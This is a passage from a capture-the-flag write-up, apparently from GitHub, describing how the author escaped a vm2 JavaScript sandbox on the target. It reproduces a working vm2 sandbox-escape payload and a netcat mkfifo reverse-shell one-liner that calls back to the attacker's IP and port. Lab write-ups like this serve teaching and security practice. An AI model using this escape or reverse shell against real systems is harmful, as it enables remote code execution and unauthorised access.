 
In the about page, we see that they use the vm2 library. We could potentially use this, but lets keep exploring.

![vm2](https://github.com/NoahHeroldt/CTF-Writeups/assets/150489159/19255a93-8856-49cc-9e3f-2bfefa6a08e4)










## Exploitation

After some further searching, I went back to the vm2 library and found a [CVE](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) that is perfect for us!

By using this code and changing some of it out to fit our needs, we can obtain a reverse shell!

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));

```

In this code we're going to be changing the '.execSync('touch pwned') part into a reverse shell. I strongly suggest reading the CVE as it explains why this works!

To get a reverse shell, I implemented this netcat one liner reverse shell into the snippet of code I mentioned before
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {YOUR IP} {PORT} >/tmp/f
```

